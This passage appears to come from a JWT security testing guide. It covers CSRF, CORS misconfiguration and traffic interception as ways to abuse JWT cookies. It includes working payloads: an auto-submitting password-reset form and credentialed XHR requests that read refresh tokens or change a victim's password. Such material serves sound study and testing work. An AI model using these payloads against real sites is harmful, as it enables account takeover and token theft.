 ### 3.2 - CSRF

JWT tokens stored in cookies (whether they are HTTPOnly or not) will be automatically sent by the browser when an authenticated user interacts with the target site. When a victim triggers a CSRF payload the browser will send the associated cookies including the token. The attacker won't be able to see these, but as they are being used to do the attacker's bidding that doesn't really matter.

**Example:**

```xml
<form id="autosubmit" action="http://www.example.com/account/passwordreset" enctype="text/plain" method="POST">
<input name="username" type="hidden" value="victim1" />
<input name="password" type="hidden" value="BadGuyKnowsThis!" />
<input type="submit" value="Submit Request" />
</form>
<script>
document.getElementById("autosubmit").submit();
</script>
```

### 3.3 - CORS Misconfiguration

When a site's CORS policy allows arbitrary origins as well as sending credentials it is possible to craft an attack page containing an XHR request to the webserver, while also capturing the response.

**This leads to two possible attack paths:**

1. If the JWT is returned in any HTTP responses from the application, the token can be read by the attacker when the 'trigger' request is sent. A good example of this is a JWT 'refresh token' or queries to an account page or login page.
    
2. If the JWT is sent in a cookie then CORS can be used as a type of CSRF to send the token without the attacker needing to see it.
    

**Example - XHR CORS:**

```js
<script>
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://www.avictimwebsitewithJWTcookieauth.com/api/refreshtoken");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send();
</script>
```

**Example - XHR CSRF:**

```js
<script>
var xhr = new XMLHttpRequest();
xhr.open("POST", "http://www.avictimwebsitewithJWTcookieauth.com/api/passwordreset");
xhr.withCredentials = true;
xhr.setRequestHeader("Content-Type", "application/json;charset=UTF-8");
xhr.send('{"newpass":"BadGuyKnowsThis!"}');
</script>
```

### 3.4 - Man-in-the-Middle

JWTs may also be seen in captured HTTP traffic, either in the header/body of unencrypted traffic, in log files of firewalls/gateways/other servers, in referrer links (if exposed as a URL parameter), or a range of other places.

